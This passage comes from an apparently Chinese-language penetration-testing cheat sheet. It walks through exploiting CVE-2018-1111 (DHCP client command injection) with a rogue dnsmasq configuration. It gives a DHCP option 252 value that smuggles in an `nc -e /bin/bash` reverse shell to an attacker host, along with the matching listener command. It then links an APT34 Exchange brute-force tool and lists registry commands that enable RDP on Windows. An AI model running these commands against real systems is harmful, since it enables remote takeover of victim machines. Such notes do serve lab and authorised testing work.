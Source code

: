 - **CVE-2018-1111** DHCP 客户端脚本代码执行漏洞
    - 文章
        - [CVE-2018-1111复现环境搭建与dhcp命令注入](https://www.freebuf.com/articles/web/191884.html)
        - [DHCP客户端脚本代码执行漏洞分析 (CVE-2018-1111) ](https://xz.aliyun.com/t/2455)

    - POC | Payload | exp
        - [ knqyf263/CVE-2018-1111](https://github.com/knqyf263/CVE-2018-1111)
        - [kkirsche/CVE-2018-1111](https://github.com/kkirsche/CVE-2018-1111)

    - 本地利用方法
        ```
        attacker: kali linux 2018 x64 192.168.71.5
        victim: Centos 7 x64 192.168.71.10
        ```
        ```vim
        vim dnsmasq.conf

        bind-interfaces

        interface=eth0
        except-interface=lo
        dhcp-range=192.168.71.10,192.168.71.20,12h
        dhcp-option=3,192.168.71.5
        dhcp-option=6,192.168.71.5
        log-queries
        log-facility=/var/log/dnsmasq.log
        ```
        `dnsmasq -dC dnsmasq.conf --dhcp-option="252,malayke'&nc -e /bin/bash 192.168.71.5 6666 #"`
        `nc -l -p 6666 -v`

        重启 CentOS 的网络服务，然后 shell 就反弹回来了

---

## windows渗透
### Exchange

- [APT34 Exchange爆破工具](https://github.com/blackorbird/APT_REPORT/blob/master/APT34/Jason.zip)

### RDP

**cmd开RDP**
- 文章
    - [开启RDP](http://b404.xyz/2017/12/27/open-RDP/)

- 命令
    - **dos命令开启3389端口(开启XP&2003终端服务)**
        1. 方法一：`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`

        2. 方法二：`REG add HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /d 0 /t REG_DWORD /f`

    - **WMIC开启3389**
